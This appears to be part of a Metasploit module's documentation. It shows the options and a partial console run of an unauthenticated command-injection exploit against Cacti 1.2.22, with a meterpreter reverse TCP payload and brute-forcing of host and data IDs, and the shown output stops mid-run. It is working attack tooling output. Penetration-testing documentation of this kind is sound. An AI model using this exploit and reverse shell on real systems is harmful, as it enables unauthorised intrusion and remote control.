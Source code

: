 ## Scenarios
### Cacti 1.2.22 - Linux Dropper - HOST_ID and LOCAL_DATA_ID not set (bruteforce)
```
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 505 combinations
[*] Enumerating local_data_id values for host_id 1
[*] Performing request 25...
[*] Performing request 50...
[*] Performing request 75...
```